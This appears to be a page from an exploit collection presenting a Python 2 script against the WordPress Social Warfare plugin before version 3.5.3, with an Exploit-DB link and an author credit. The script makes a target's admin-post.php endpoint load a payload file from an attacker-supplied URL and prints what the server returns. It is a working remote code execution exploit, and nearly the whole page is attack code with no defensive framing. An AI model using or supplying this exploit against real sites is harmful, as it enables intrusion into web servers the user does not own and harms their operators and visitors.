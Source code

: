 ```bash
```

---

# exploitation
## social warfare plugin < 3.5.3 exploit

- [Details](https://www.exploit-db.com/exploits/46794)
- Author: hash3liZer

```python
import sys
import requests
import re
import urlparse
import optparse

class EXPLOIT:

	VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"

	def __init__(self, _t, _p):
		self.target  = _t
		self.payload = _p

	def engage(self):
		uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
		r = requests.get( uri )
		if r.status_code == 500:
			print "[*] Received Response From Server!"
			rr  = r.text
			obj = re.search(r"^(.*)<\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
			if obj:
				resp = obj.groups()[0]
				if resp:
					print "[<] Received: "
					print resp.replace( "lnbreak", "\n" )
				else:
					sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
			else:
				sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
		else:
			sys.exit( "[~] Unexpected Status Received!" )

def main():
	parser = optparse.OptionParser(  )

	parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
	parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

	(options, args) = parser.parse_args()

	print "[>] Sending Payload to System!"
	exploit = EXPLOIT( options.target, options.payload )
	exploit.engage()

if __name__ == "__main__":
	main()
```